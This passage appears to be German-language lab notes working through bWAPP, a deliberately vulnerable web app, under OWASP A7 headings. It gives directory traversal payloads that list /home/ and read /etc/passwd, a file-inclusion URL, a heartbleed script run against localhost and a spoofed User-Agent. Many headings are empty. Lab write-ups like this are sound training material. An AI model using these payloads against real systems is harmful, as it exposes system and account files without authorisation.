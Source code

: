 ~~~
python heartbleed.py 127.0.0.1
~~~
---
##### Host Header Attack (Reset Poisoning)
---
##### HTML5 Web Storage (Secret)
---
##### POODLE Vulnerability
---
##### SSL 2.0 Deprecated Protocol
---
##### Text Files (Accounts)


---

### // A7 - Missing Functional Level Access Control //
---
##### Directory Traversal - Directories
~~~
/bWAPP/directory_traversal_2.php?directory=../../../../home/
~~~
Mittels "../" kann jeweils eine Orderebene nach oben gewandert werden.

---
##### Directory Traversal - Files
~~~
/bWAPP/directory_traversal_1.php?page=../../../../../etc/passwd
~~~
Somit können bekannte Datein einfach ausgelesen werden. <br>
Hier bsp: /etc/passwd

---
##### Host Header Attack (Cache Poisoning)

kann mit "hostheader_1.php" ausgeführt werden.

---
##### Host Header Attack (Reset Poisoning)

kann mit "hostheader_2.php" ausgeführt werden.

---
##### Local File Inclusion (SQLiteManager)
---
##### Remote & Local File Inclusion (RFI/LFI)

rfi.txt nach rfi.php > PHP fügt die Dateiendung .php automatisch an.
~~~
bWAPP/rlfi.php?language=../evil/rfi
~~~
---
##### Restrict Device Access
~~~
User-Agent: Mozilla/5.0 (Linux; Android 4.0.4; Galaxy Nexus Build/IMM76B) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.133 Mobile Safari/535.19 
~~~
---
##### Restrict Folder Access
---
##### Server Side Request Forgery (SSRF)